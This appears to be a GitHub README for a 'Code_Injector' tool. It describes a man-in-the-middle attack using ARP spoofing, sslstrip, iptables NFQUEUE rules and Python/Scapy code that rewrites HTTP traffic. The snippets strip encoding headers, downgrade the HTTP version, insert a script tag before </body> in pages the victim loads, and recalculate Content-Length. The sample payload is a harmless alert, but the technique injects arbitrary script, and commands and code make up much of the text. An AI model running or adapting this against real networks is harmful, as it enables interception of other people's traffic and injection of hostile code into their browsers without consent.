

# Code_Injector

## Used Modules

###  netfilterqueue

NetfilterQueue provides access to packets matched by an iptables rule in Linux. Packets so matched can be accepted, dropped, altered, or given a mark. The iptables is the tool to access the linux netfilter firewall, the iptable rule we're gonna set to redirect the flow of packets to a queue to be analyzed

iptables -P FORWARD ACCEPT<br>
iptables -I INPUT -j NFQUEUE --queue-num 0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num 0<br>

And then all packets that have the destination for the port 80(HTTP)
we're gonna to redirect to the port 10000 which is the sslstrip port(the tool SslStrip is used to bypass HTTPS websites). Remembering tha we can just do this because first we become the MITM using the file which is in the repository Arp_Spoof.

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000<br>

### Scapy

The module Scapy is used to edit the packets from the queue because with the original format there is no way to edit (for more information go to the repository Arp_Spoof). First of all already the MITM i analyse all the requests and responses, because my iptable rule that i defined i redirected the request that want to go for the port 80 to the port 10000(SslStrip), with this i can see all the requests with the destination 10000.

```python
  if scapy_packet[scapy.TCP].dport == 10000:
```

And using regex rules to access the field "Accept-Encoding" i remove the encoding from the packet, this way is possible to see the information about the packet and change, the same way i replace the field with "HTTP/1.1" fro an earlier version to avoid problems. 
```python
   load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
   load = load.replace("HTTP/1.1" , "HTTP/1.0")
```

Therefore the problem when the target make the requests is done, now when the progam check a response from the server (originnaly the response would come with the source port 80 but now came from the port 10000 because of my SslStrip tool) it's gonna inject the code in the field "load" that contains the HTML and scripts from the page that the target requested. Looking for a tag </body> that all HTML pages have and replacing with a java script code. 
```python
elif scapy_packet[scapy.TCP].sport == 10000:
injection_code = "<script>alert('CODE INJECTOR SUCCSSESFULLY DONE')</script>"
load = load.replace("</body>", injection_code + "</body>")
```
Other importants details is change the length of the page because when a page is sent to someone it has a length and how it was changed because of the injecting code we have to change the verify if the load have the field content_length and recalculate the length adding the length of the injected code. 
```python
 content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))
```
Lastly but not least how the format of the packet was change to a scapy packet we have to take the packet and turn into a orginal packet.
```python 
new_packet = set_load(scapy_packet, load)
packet.set_payload(str(new_packet))
```
This way the progam is runned on the bottom left side are the packets from the Arp_spoof being sent, on the top right side are the code_injector.py showing when requests ad responses are made, the other it's the sslstrip running.



And when i access some website on my target computer :-) ...


obs: to clean the iptables:

iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
